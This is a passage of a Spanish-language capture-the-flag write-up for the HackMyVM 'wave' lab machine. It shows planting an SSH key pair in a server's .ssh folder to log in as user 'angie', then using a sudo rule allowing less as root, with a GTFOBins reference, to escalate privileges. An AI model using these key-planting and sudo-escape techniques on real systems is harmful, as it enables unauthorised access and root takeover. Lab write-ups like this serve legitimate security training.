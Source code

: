 Creo en mi escritorio una carpeta ".ssh" que contenga una clave pública y otra privada.

```
h3rshel@kali:~/Desktop/.ssh$ ls -la
total 16
drwxr-xr-x 2 h3rshel h3rshel 4096 Sep 10 19:40 .
drwxr-xr-x 7 h3rshel h3rshel 4096 Sep 10 20:00 ..
-rw-r--r-- 1 h3rshel h3rshel  566 Sep 10 19:40 authorized_keys
-rw------- 1 h3rshel h3rshel 2602 Sep 10 19:40 id_rsa
```
Después subo la carpeta completa al servidor.

![img](../imgs/write-ups/hackmyvm/wave/wave_3.png)

Ahora intento conectarme como uno de los usuarios encontrados al principio mediante ssh.

```
h3rshel@kali:~/Desktop/.ssh$ ssh angie@192.168.1.120 -i id_rsa
Last login: Tue Sep  5 11:14:50 2023 from 192.168.0.100
angie@wave:~$ :)
```

Una vez estoy dentro como el usuario "angie", al comprobar los permisos de **sudo** veo que puedo ejecutar **less**.

```
angie@wave:~$ sudo -l
Matching Defaults entries for angie on wave:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User angie may run the following commands on wave:
    (ALL) NOPASSWD: /usr/bin/less -F /opt/secret.txt
```

En [GTFObins](https://gtfobins.github.io/gtfobins/less/#sudo) se puede ver como escalar privilegios.

Para poder hacer esto, es necesario que la ventana de la terminal sea muy muy pequeña debido a que el archivo contiene poco texto.

![img](../imgs/write-ups/hackmyvm/wave/wave_4.png)

